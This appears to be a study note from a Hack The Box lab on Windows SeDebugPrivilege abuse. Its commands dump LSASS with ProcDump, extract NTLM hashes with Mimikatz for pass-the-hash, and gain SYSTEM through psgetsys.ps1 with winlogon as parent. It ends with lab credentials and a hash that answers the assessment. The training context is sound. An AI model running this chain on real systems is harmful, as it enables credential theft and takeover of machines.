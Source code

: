 # SeDebugPrivilege

SeDebugPrivilege -> allows a process to inspect and adjust the memory of other processes, and [has long been](https://leastprivilege.com/2004/08/19/sedebugprivilege-and-debugger-users/) [a security concern](https://blogs.msdn.microsoft.com/oldnewthing/20080314-00/?p=23113). SeDebugPrivilege allows the token bearer to access any process or thread, regardless of security descriptors.

The Windows credential harvesting tool [Lsadump](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-lsadump) uses this technique to provide processes with read access to the memory space of the Local System Authority (LSASS).&#x20;

Malware also abuses this privilege to perform code injection into otherwise trustworthy processes, because it [permits the creation of new remote threads in a target process](https://support.microsoft.com/en-us/help/131065/how-to-obtain-a-handle-to-any-process-with-sedebugprivilege).

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set      
```

Use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) to dump process memory. A good choice would be LSASS which stores user credentails after user logs on to a system.

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Successful, load this in Mimikatz using sekurlsa::minidump command after sekurlsa::logonPasswords

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

We can then use the output hash to perform PTH attacks

> If procdump is not possible then we can Create dump file of LSASS process manually and run mimikatz with the output file

### Remote Code Execution as SYSTEM

We can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using  `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it.

{% embed url="https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1" %}
This script has to be transferd to the target system
{% endembed %}

```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

![Script in action](https://academy.hackthebox.com/storage/modules/67/psgetsys\_winlogon.png)

To load and run type

{% code overflow="wrap" %}
```powershell
PS C:\Users\joran\Desktop> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```
{% endcode %}

> We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script

## Assessment

10.129.249.171

RDP to target with username "jordan" and password "HTB\_@cademy\_j0rdan!"

Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm\_svc account

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption><p>dump the hash</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption><p>64f12cddaa88057e06a81b54e73b949b</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption><p>When you have local admin and want to get nt authority system</p></figcaption></figure>
